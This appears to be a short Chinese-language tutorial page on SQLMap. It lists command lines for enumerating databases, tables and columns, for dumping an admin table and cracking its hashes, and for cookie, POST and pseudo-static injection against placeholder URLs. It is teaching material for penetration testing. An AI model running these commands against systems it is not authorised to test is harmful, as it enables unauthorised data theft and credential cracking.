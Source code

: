 # SQLMap应用
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 简介
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;SQLmap是一个自动化的SQL注入工具，其主要功能是扫描，发现并利用给定的URL的SQL注入漏洞，目前支持的数据库是MySQL，Oracle，PostgreSQL，Microsoft  SQL  Server，Microsoft Acess，IBM DB2，SQLLite，Firebird，Sybase和SAP MaxDB……SQLmap采用几种独特的SQL注入技术，分别是盲推理SQL注入，UNION查询SQL注入，对查询和盲注。其广泛的功能和选项包括数据库指纹，枚举，数据库提取，访问目标文件系统，并在获取完全操作权限时实行任意命令
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 详解 
![](/assets/WX20190306-160348@2x.png)
![](/assets/WX20190306-161610@2x.png)
![](/assets/WX20190306-162251@2x.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 流程 (目标注入地址尽量用双引号引起来)
![](/assets/AF1C4C8C3124CC854FBE3962B95BFA39.png)


```python
    URL 形如 "http://172.16.12.2/inject.php?id=1"
    sqlmap.py -u "URL" --dbs                --dbs: 列举数据库
    sqlmap.py -u "URL" --current-db         --current-db: 当前数据库
    sqlmap.py -u "URL" -D dbname  --tables              dbname:指定数据库名称 --tables:列出某数据库上的所有表
    sqlmap.py -u "URL" -D dbname -T tablename --columns -D    --columns:列出指定表上的所有列
    sqlmap.py -u "URL" -D sqlinject  -T admin -C 字段 --dump  --dump:导出列里面的字段
    然后回车默认通过字典来破解，选择1利用自带的字典暴力破解
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 其他总结

```python
    1.ACCESS注入:sqlmap.py -u www.xxx.asp?id=7" --tables
    2.cookie注入: sqlmap.py -u www.xxx.asp.asp --cookie "id=31" --table --level 2
    3.post注入: sqlmap.py -r 抓包数据.txt --dbs
    4.伪静态注入: sqlmap.py -u www.xxx.com/xxx*.html -D 数据库 --tables
```









 







